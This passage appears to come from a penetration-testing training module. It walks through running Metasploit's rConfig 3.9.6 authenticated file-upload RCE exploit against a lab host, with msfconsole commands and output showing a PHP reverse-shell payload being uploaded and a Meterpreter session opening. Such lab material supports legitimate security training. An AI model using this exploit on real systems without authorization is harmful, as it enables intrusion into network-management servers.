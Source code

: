 
## Using the rConfig Exploit and Gaining a Shell

In msfconsole, we can manually load the exploit using the command:

#### Select an Exploit

  Infiltrating Unix/Linux

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

 Use what you have learned in the module thus far to fill out the options associated with the exploit.

#### Execute the Exploit

  Infiltrating Unix/Linux

```shell-session
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

We can see from the steps outlined in the exploitation process that this exploit:

- Checks for the vulnerable version of rConfig
- Authenticates with the rConfig web login
- Uploads a PHP-based payload for a reverse shell connection
- Deletes the payload
- Leaves us with a Meterpreter shell session
